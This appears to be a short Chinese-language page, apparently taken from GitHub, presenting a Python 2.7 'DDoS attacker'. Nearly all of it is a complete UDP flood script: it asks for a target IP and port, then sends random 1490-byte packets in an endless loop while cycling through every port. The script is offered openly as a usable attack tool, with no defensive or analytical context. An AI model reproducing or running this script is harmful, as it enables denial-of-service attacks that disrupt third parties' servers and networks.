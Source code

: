 ### 使用Python2.7制作DDOS攻击器

主要代码：

> sock.sendto(bytes, (ip,port))

源代码：

'''import sys

import os

import time

import socket

import random

#Code Time

from datetime import datetime

now = datetime.now()

hour = now.hour

minute = now.minute

day = now.day

month = now.month

year = now.year


##############

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

bytes = random._urandom(1490)

#############

os.system("clear")

os.system("figlet DDos Attack")



ip = raw_input("IP Target : ")

port = input("Port       : ")

os.system("clear")

os.system("figlet Attack Starting")

print "[                    ] 0% "

time.sleep(1)

print "[=====               ] 25%"

time.sleep(1)

print "[==========          ] 50%"

time.sleep(1)

print "[===============     ] 75%"

time.sleep(1)

print "[====================] 100%"

time.sleep(1)

sent = 0

while True:

     sock.sendto(bytes, (ip,port))
     
     sent = sent + 1
     
     port = port + 1
     
     print "Sent %s packet to %s throught port:%s"%(sent,ip,port)
     
     if port == 65534:
     
       port = 1
       
'''

